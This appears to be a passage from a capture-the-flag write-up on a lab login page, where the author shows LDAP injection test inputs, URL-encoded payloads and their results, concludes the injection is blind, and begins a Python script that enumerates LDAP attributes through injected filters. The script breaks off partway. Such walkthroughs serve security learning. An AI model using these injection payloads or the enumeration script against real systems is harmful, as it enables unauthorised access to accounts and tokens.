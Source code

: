 Test #1: Invalid username, no injection
```
> invalid
Payload: invalid
User invalid not found
```
Result: User is not found as expected.

Test #2: Valid username, no injection
```
> ldapuser
Payload: ldapuser
Cannot login
```
Result: User is found but I get an error message because OTP is invalid.

Test #3: Basic injection assuming a search filter like `(&(user) **rest of the query**`
```
> ldapuser)(&
Payload: ldapuser%29%28%26
Cannot login
```
Result: I've successfully identified that LDAP injection is possible since the query returns a result

Test #4: Injection with invalid query to test behaviour of the page when it errors out
```
> ldapuser)(bad_ldap_search)))))(((((
Payload: ldapuser%29%28bad_ldap_search%29%29%29%29%29%28%28%28%28%28

```
Result: I don't get anything back, the page basically refreshes when it gets an invalid query. This is what I saw earlier when fuzzing the page with invalid characters. The characters are not necessarily invalid but they resulted in an invalid LDAP search filter when I was fuzzing.

Conclusion: This is a blind LDAP injection since the page doesn't return the results of the query in a field on the page or in an error message

### LDAP injection to get the OTP token

The first thing I did next was to try to find out which LDAP attributes are valid in the database. The list of common LDAP attributes is available on multiple websites, and we already have a hint from the HTML comments that the application uses a common LDAP attribute to store the token.

I modified my script to run through the entire list of attributes and try a query resulting in: `(uid=*)(attribute_to_test=*)`. If the attribute exists, the query should return a result and I should get the `Cannot login` message.

```python
#!/usr/bin/python

import re
import requests
import time
import urllib

def main():
	with open("attributes.txt") as f:
		attributes = f.read().splitlines()

	for attribute in attributes:

		payload = "*)({}=*".format(attribute)
		data = {
			"inputUsername": urllib.quote(payload),
			"inputOTP": "12345",
		}

```